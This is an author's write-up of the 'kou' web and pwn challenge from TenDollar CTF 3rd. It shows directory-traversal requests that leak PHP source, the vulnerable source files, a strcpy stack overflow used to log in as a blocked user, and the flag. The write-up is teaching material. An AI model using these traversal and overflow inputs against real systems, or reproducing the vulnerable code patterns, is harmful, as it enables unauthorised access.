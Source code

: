 ```yaml
---
layout: post
title: "TenDollar CTF - kou writeup"
comments: true
description: "My Problem 'kou' writeup at TenDollar CTF 3rd."
keywords: "my_prob, web, pwn, lfi, overflow
---
```


## Information

Category : Web, Pwn

Solver : 7

Tag : LFI, Overflow

## Description

Author: @shpik

Eagle-Jump is black company?

Server Info: http://web2.tendollar.kr:10101/

## Exploit

It have 4 menu in this site. (੭ ᐕ)੭*⁾⁾

- Home
- Article
- Login
- Join

This site handles the page through the p parameter.

`http://web2.tendollar.kr:10101/?p=home`

p parameter is not allow wrapper and directory traversal.

There is a Secret Data in the Article menu.

If you read this, you will not get the contents with the message "You're not admin."

When you request article you can see that it is requested as f parameter.

`http://web2.tendollar.kr:10101/?p=view&f=First%20Article`

f parameter is allow directory traversal, but wrapper is not allowed.

Leak index.php.

`http://web2.tendollar.kr:10101/?p=view&f=../../var/www/html/index.php`

```html
<!-- index.php -->
<!DOCTYPE html>
<html>
<head>
	<title>Yagami Kou's Homepage</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
	<?php
		@include_once('menu.php');
	?>
	<br>
	<?php
		$pageList = array(
			'home',
			'login',
			'loginchk',
			'logout',
			'view',
			'board',
			'join'
		);
		if(in_array($_GET['p'], $pageList)) {
		  @include_once($_GET['p'].'.php');
		} else {
		  @include_once('home.php');
		}		
	?>
</body>
</html>
```

Let's take a look at loginchk which seems to be important the pageList.

```html
<!-- loginchk.php -->
<?php
	$id = $_POST['id'];
	$pw = $_POST['pw'];
	if($id!='' && $pw!=''){
		if(preg_match('/kou/i',$id)){
			die('<script>alert("Don\'t login at kou.");history.back();</script>');
		}
		if(login($id,$pw)){
			$_SESSION['is_login'] = 1;
			$_SESSION['admin'] = 1;
			echo '<script>alert("Login Success.");location.href="?p=home";</script>';
		}else{
			echo '<script>alert("Login Fail.");history.back();</script>';
		}
	}else{
		echo '<script>alert("Login Fail.");history.back();</script>';
	}
?>
```

It is not allow login as "kou" in loginchk.php.

But, **login** function that verify id and password is not built-ins function.

Maybe, It is called by another modules.

```html
<!-- view.php -->
<?php
	$f = $_GET['f'];
	if(!is_array($f) && !is_null($f) && $f!=''){
//		$f = str_replace('../','', $f);
		if($f[strlen($f)-1]=='/'){
			$f[strlen($f)-1]=='\0';
		}
		if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==1){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}else if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==0){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre>You're not admin.</pre>
	</div>
<?php
		}else{
?>
	<div class="description">
		<p style="font-size: 20px;"><?=$f;?></p>
		<br><br>
		<?php
		if(preg_match('/kou\.so/i',$f)){
			echo 'Okay Here<br><div>'.file_get_contents('/var/www/modules/kou.so').'</div>';
		}
		?>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}

	}else{
		echo '<script>alert("No found.");history.back();</script>';
	}
?>
```

Next, see the view.php.

It seems that f parameter is being distributed to the page through **loadFile** function.

but, It is not built-ins function, too.

If you request kou.so with f parameter, you will see that you are giving the kou.so file.

Open it !

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/kou1.png)

**loadFile** function just open file using fopen function.

Next, I see the **login** function.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/kou2.png)

It is verfying to input value(id, pw) using loginchk function.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/kou3.png)

**loginchk** function is compare id and pw to "kou" and "1e0c6abede7ff7184c3cefe606f9760a".

but, id can't contain "kou" because of loginchk.php.

Vulnerability is **login function**.

```c
strcpy(_id, id);
v3 = strcpy(_pw, pw);
```

It copy input value to _id and _pw using strcpy.

```c
char _pw[32]; // [rsp+20h] [rbp-68h]
char _id[33]; // [rsp+40h] [rbp-48h]
```

If you look at stacks of _id and _pw, you can see _pw followed by _id.

And copy id, then copy pw, but strcpy don't check length.

It is occur **<u>stack overflow</u>**.

If pw is inputed by "1e0c6abede7ff7184c3cefe606f9760akou", then _id is "kou" and _pw is "1e0c6abede7ff7184c3cefe606f9760a".

So, you can login as kou.

Now when you log in with id = a, pw = 1e0c6abede7ff7184c3cefe606f9760akou on the login page, you can login as kou.

After login as kou, you can read Secret Data and get Flag!

```
Secret Data

退勤する前にFLAGを残していきます。
TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}
```



**FLAG :** TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}

